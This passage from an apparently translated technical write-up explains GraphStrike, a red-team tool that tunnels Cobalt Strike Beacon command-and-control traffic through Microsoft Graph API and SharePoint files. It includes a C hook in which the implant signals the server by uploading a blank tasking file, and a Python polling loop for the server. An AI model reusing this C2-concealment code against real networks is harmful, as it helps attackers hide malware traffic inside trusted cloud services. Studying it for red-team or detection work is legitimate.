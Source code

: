 ```plain
                                     C_PTR( U_PTR ( lpdwNumberOfBytesRead ) ) ) );

    // Only run the following if this is a GraphStrike Beacon
    if (pMemAddrs->graphStrike)
    {
        // If we are reading data from a GET request, set readTasking to TRUE
        if(pMemAddrs->activeGet && *lpdwNumberOfBytesRead > 0)
            pMemAddrs->readTasking = TRUE;

        // Beacon calls InternetReadFile until it reads 0 data. Once we are completely done reading output,
        // upload a blank file to the TS tasking file to signal server we are ready for more tasking.
        else if(pMemAddrs->readTasking && *lpdwNumberOfBytesRead == 0)
        {
            pMemAddrs->readTasking = FALSE;            
            LPVOID response = MakeWebRequest(pMemAddrs->hInternet, 
                                              GRAPH_ADDRESS, 
                                              pMemAddrs->httpGetUri, 
                                              PUT_VERB, 
                                              pMemAddrs->httpPostHeaders, 
                                              NULL, 
                                              pMemAddrs );
            if (response)
                pMemAddrs->Api.msvcrt.free(response);            
        }
    }

    return bResult;
};
```

这与 Beacon 仅上传到 Beacon 输出文件的通常流程相反，但在我们完成读取后，通过将 TS 任务文件清零，Beacon 可以向 GraphStrike 服务器发出信号，表明它已收到最后一个任务并准备好执行更多。这也可以防止 Beacon 多次运行相同的命令，因为下次 Beacon 签入时（即使 GraphStrike 服务器出现故障或停止响应），它会将空白 TS 任务文件解释为“无任务，下次签入” ，然后回去睡眠。 GraphStrike 服务器的逻辑与此配对，等待直到它看到 Beacon 已检索并清零 TS 任务文件，然后再尝试发送更多文件。

同样的动态也存在于 Beacon 输出文件中。当 GraphStrike 服务器检测到 Beacon 输出文件包含数据时，它会下载输出，然后上传一个空白文件以将 SharePoint 中的文件清零。每次检测到 http-post 循环时，Beacon 在 HttpOpenRequestA\_Hook 中发出一个外带请求，首先检查 Beacon 输出文件是否为空或上次输出是否被 GraphStrike 服务器接收，然后才允许 Beacon 继续上传输出。综合起来，这种方法可以缓解上述两个问题。

# GraphStrike 服务器

GraphStrike 服务器的工作是充当 TS 和 Graph API 之间的穿梭机或转换器。与迄今为止讨论的内容相比，该组件的开发过程要简单、顺利得多。首先也是最重要的一点是，它不需要写成与位置无关的 C；为了方便起见，它是用 Python 编写的。紧随其后的是，我们不再尝试操纵、快捷方式和用胶带将现有的二进制文件粘在一起以使其执行我们想要的操作，而是完全控制程序。虽然比较简单，但仍有一些事情值得讨论。

当服务器启动时，它会获取 Graph API 的访问令牌，然后进入无限循环，其中调用“CheckBeacons”函数：

```plain
# Call CheckBeacons continuously to service Beacon threads
    while(True):

        # Refresh access token if necessary
        currTime = time.time()
        if currTime > refreshTime:
             access_token, refreshTime = GetAccessToken()

        CheckBeacons()
        time.sleep(0.5)
```
